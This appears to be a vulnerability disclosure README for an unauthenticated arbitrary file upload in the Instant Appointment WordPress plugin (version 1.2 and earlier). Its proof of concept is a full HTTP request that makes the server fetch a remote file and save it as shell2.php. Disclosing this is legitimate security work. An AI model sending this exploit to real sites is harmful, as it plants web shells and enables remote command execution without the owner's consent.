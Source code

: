 # instant-appointment-arbitrary-file-upload
instant-appointment - Arbitrary File upload


# Description

The Instant Appointment plugin for WordPress is vulnerable to Arbitrary File upload in versions up to, and including, 1.2.  This makes it possible for unauthenticated attackers to upload a shell and execute commands.

## Details

- **Type**: plugin
- **Slug**: instant-appointment
- **Affected Version**: 1.2
- **CVSS Score**: 9.8
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: 
- **Status**: Closed

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: wp-dev.ddev.site
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Cache-Control: max-age=0
Content-Length: 108

action=add_gallery_to_vendor&user_galerie[0][1]=https://rfi.nessus.org/rfi.txt&user_galerie[0][0]=shell2.php
```

File will be in uploads/2025/1/shell2.php file.
